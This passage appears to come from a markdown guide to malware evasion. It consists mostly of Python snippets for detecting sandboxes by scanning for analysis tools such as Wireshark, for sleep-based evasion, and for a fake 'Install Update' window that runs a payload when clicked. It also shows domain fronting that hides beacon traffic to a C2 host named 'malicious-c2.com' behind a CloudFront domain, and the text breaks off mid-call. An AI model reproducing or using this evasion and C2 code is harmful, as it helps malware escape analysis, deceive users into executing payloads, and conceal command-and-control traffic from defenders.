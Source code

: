 ```python
    
    # Check for analysis tools
    analysis_processes = ['wireshark', 'procmon', 'ollydbg']
    running = [p.name().lower() for p in psutil.process_iter()]
    if any(proc in running for proc in analysis_processes):
        checks.append(True)
    
    return len(checks) > 2  # Multiple indicators = likely sandbox
```

#### Time-Based Evasion

```python
# Sleep to evade automated analysis
import time
import random

# Random sleep
time.sleep(random.randint(300, 600))  # 5-10 minutes

# Check if sleep was skipped (sandbox acceleration)
start = time.time()
time.sleep(60)
if time.time() - start < 59:
    # Sleep was accelerated, likely sandbox
    exit()
```

#### User Interaction

```python
# Require user interaction before executing
import tkinter as tk

def wait_for_interaction():
    root = tk.Tk()
    root.title("Update Required")
    
    def on_click():
        root.destroy()
        execute_payload()
    
    button = tk.Button(root, text="Install Update", command=on_click)
    button.pack()
    root.mainloop()
```

### 4. Network Evasion

#### Domain Fronting

```python
# Use CDN to hide C2 communication
import requests

# Actual C2 server
c2_server = "malicious-c2.com"

# CDN domain
cdn_domain = "legitimate-cdn.cloudfront.net"

# Request with domain fronting
response = requests.get(
    f"https://{cdn_domain}/beacon",
    headers={"Host": c2_server}
```